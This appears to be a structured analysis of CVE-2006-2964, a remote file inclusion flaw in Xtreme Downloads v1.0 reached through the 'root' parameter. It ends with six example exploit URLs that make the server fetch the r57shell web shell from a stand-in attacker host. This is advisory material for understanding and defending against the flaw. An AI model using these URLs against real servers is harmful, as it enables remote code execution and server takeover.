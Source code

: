 Based on the provided information, here's an analysis of CVE-2006-2964:

**Root Cause of Vulnerability:**

*   The vulnerability stems from multiple file include vulnerabilities present in Xtreme Downloads v1.0. The application improperly handles user-supplied input in the `root` parameter, allowing the inclusion of remote files.

**Weaknesses/Vulnerabilities Present:**

*   **Remote File Inclusion (RFI):** The primary vulnerability is the ability to include remote files via the `root` parameter in various PHP scripts within the application.
*   **Lack of Input Sanitization:** The application fails to properly sanitize or validate user-supplied input for the `root` parameter, allowing attackers to specify arbitrary URLs.

**Impact of Exploitation:**

*   **Arbitrary Code Execution:** By including a remote file containing malicious PHP code (e.g., `r57shell.txt`), an attacker can achieve arbitrary code execution on the server.
*   **Complete System Compromise:** Successful code execution could allow an attacker to gain full control over the vulnerable server, potentially leading to data theft, modification, or further attacks.
*   **Partial Confidentiality, Integrity, and Availability Impact:** The CVSS score indicates a partial impact on confidentiality, integrity, and availability, suggesting that an attacker could potentially read sensitive information, modify data, or disrupt service.

**Attack Vectors:**

*   **HTTP GET Requests:** The vulnerability is exploited by sending crafted HTTP GET requests to specific PHP files, including `download.php`, `manager.php`, `category.php`, `add_allow.php`, `index.php` and `login.php` with the `root` parameter pointing to a malicious URL.

**Required Attacker Capabilities/Position:**

*   **Remote Network Access:** The attacker needs to have network access to the vulnerable server.
*   **Ability to Host Malicious File:** The attacker needs the ability to host a malicious PHP file that will be included by the vulnerable application.
*   **No Authentication Required:** The exploitation does not require authentication, making it accessible to anonymous attackers.

**More Detail Than CVE Description:**

*   The provided content includes the vulnerable file paths and the specific parameters (`root`) that can be exploited.
*   The content provides example URLs for exploitation, which demonstrate how to include a malicious file.
*   It lists the exact files affected, giving specific targets to the RFI vulnerability.

The exploit examples provided are:
*  `http://www.example.com/path/download.php?root=http://yoursite/r57shell.txt?`
*  `http://www.example.com/path/manager.php?root=http://yoursite/r57shell.txt?`
*  `http://www.example.com/path/admin/scripts/category.php?root=http://yoursite/r57shell.txt?`
*  `http://www.example.com/path/includes/add_allow.php?root=http://yoursite/r57shell.txt?`
* `http://www.example.com/path/admin/index.php?root=http://yoursite/r57shell.txt?`
*  `http://www.example.com/path/admin/admin/login.php?root=http://yoursite/r57shell.txt?`